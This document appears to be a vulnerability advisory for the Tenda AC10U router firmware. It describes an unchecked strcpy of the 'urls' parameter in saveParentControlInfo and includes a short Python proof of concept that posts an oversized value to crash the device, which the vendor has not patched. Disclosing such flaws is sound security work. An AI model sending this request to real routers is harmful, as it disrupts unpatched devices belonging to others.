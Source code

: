 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the urls parameter in the saveParentControlInfo function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "saveParentControlInfo" retrieves the parameter "urls" using "websGetVar", the value of "urls" is passed into function strcpy without any length check, and stored in "(char *)pc_info->mac_addr". It can cause a stack overflow if the size of the data we enter exceeds the size of "(char *)pc_info->mac_addr".

![1705412452486](image/saveParentControlInfo_3/1705412452486.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/saveParentControlInfo'
payload = {
    'deviceId': '10:11:11:11:11:16',
    'deviceName': 'deviceNAME666',
    'enable': '1',
    'time': '10:00-22:00',
    'url_enable': '1',
    'urls': "a" * 0x800,
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
